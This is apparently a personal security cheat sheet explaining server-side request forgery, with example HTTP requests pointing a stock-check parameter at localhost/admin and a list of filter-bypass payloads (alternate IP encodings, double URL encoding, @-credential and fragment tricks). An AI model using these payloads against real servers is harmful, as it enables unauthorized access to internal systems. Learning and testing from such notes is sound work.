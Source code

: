 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

Need to research Blind SSRF vulnerabilities on portswigger.net
Sometimes the server checks for headers for links.

# Server Side Request Forgery(SSRF)

SSRF happens when a server accepts arguments in the form of URLs or URL paths which can allow an attacker to trick the server into loading URLs that it normally wouldn't want to.
- Cause the server to send back information from other internal servers
- Cause the server to connect to an attacker's eternal websites

Ex: A website accepts a URL as an argument in its body
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

The URL argument can be modified to point to `/admin`, which gives access to the admin page for the attack.
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

The attacker wouldn't normally have access to this page, but because the server itself goes to that path, it does have access and then sends the page to the client/attacker.
- You can often go to certain pages, but you won't be given access. This is a way to get around that.
- It is a way to get around restricted sites.

## Common domains
- `localhost`
- loopback addresses: `127.0.0.1` - `127.255.255.255`
- private addresses: `10.0.0.0` - `10.255.255.255.255`, `172.16.0.0` - `172.31.255.255`, and `192.168.0.0` - `192.168.255.255`
	- You have to check each of these individually because you don't know what other devices are on their private network

## Get around common SSRF filters
- Alternatives to `127.0.0.1` like `2130706433`(decimal representation), `017700000001`(octal representation), or `127.1`.
- Register a domain name that resolves to `127.0.0.1`
	- Use A record
	- Try changing protocols from `https` to `http`
- URL encoding or case variation
	- It is often worth trying to double encode special characters. Like `#` double encoded as `%2523` or `:` as `%253A`

Sometime SSRF filter only allow URLs that contain or start with permitted values. Here are some tips to get around that:
- Using the @ symbol so the username or password can bypass the filter, but not change the actual domain. This takes the format of `username:password@domain`
	- Ex: `https://permitted-value:fakepassword@127.0.0.1` or `https://fakeusername:permitted-value@127.0.0.1`
	- Sometimes arguments take in URL paths and concatenate those paths onto the `localhost`
		- Ex: `http://localhost:80 + parameter` or `http://localhost + parameter`
		- parameter = `@197.168.0.12/admin` or `:fakepassword@197.168.0.12/admin`
		- Output = `http://localhost:80@197.168.0.12/admin` or `http://localhost:fakepassword@197.168.0.12/admin`
- Using the # symbol so the permitted value is in the fragment identifier and thus passes the filter, but doesn't change the domain.
	- Ex: `https://127.0.0.1#permitted-value`
	- This works if the URL needs to contain one of the permitted values, but doesn't need to start with it.
- Using sub-domains so the permitted-value is in the subdomain, but doesn't effect the actual domain being searched.
	- Ex: `https://permitted-value.127.0.0.1`
- You can combine each of these approaches
	- Ex: `http://localhost%2523username@stock.weliketoshop.net/admin`
